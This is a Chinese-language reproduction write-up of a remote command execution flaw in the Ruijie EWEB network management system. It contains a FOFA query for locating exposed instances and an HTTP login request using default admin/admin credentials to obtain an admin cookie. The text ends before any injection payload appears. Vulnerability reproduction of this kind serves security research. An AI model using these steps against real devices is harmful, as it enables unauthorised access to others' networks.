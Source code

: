 
# 锐捷 EWEB 网管系统 RCE 漏洞复现

### 0x01 产品简介

  [锐捷](https://so.csdn.net/so/search?q=%E9%94%90%E6%8D%B7&spm=1001.2101.3001.7020)网管系统是由北京锐捷数据时代科技有限公司开发的新一代基于云的网络管理软件，以“数据时代创新网管与信息安全”为口号，定位于终端安全、IT 运营及企业服务化管理统一解决方案。

### 0x02 漏洞概述

  Ruijie-EWEB 网管系统 flwo.control.php 中的 type 参数存在命令执行漏洞，攻击者可利用该漏洞执行任意命令，写入后门，获取服务器权限，进而控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="Ruijie-EWEB 网管系统"

![127d55f3543a4249a89139605fe5dabb.png](assets/1701668958-4bdc42ac01cc9bea80f0f686c749edfe.png)

### 0x04 漏洞复现 

获取 admin 用户有效 cookie

```cobol
POST /ddi/server/login.php HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

username=admin&password=admin?
```

